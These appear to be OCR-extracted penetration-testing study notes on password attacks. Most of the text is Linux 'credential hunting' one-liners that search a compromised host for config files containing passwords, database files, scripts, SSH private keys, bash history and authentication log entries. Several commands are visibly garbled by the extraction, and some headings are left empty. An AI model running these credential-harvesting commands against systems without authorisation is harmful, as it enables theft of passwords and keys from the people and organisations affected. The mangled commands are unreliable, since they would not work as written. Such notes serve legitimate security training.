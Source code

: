 * dir service in modern enterprise networks
* if organisation uses Win, then AD is used to manage those Win systems...
* once in domain, it will no longer reference the SAM db to validate logon requests...
  * Example: WS01/user52

Attacking using crackmapexec



### Credential Hunting in Windows

## Linux Local PW Attacks

### Credential Hunting in linux

Config files

for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name \*$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done

Creds in config files

for i in $(find / -name \*.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "#";done

Databases

for l in $(echo ".sql .db ._db .db_");do echo -e "\nDB File extension: " $l; find / -name \*$l 2>/dev/null | grep -v "doc|lib|headers|share|man";done

Notes

find /home/\* -type f -name "_.txt" -o ! -name "_.\*"

Scripts

for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name \*$l 2>/dev/null | grep -v "doc|lib|headers|share";done

SSH Private keys

grep -rnw "PRIVATE KEY" /home/\* 2>/dev/null | grep ":1"

SSH Public keys

grep -rnw "ssh-rsa" /home/\* 2>/dev/null | grep ":1"

BASH HISTORY

tail -n5 /home/_/.bash_

_LOGS_

for i in $(ls /var/log/\* 2>/dev/null);do GREP=$(grep "accepted|session opened|session closed|failure|failed|ssh|password changed|new user|delete user|sudo|COMMAND=|logs" $i 2>/dev/null); if \[\[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted|session opened|session closed|failure|failed|ssh|password changed|new user|delete user|sudo|COMMAND=|logs" $i 2>/dev/null;fi;done

MEMORY
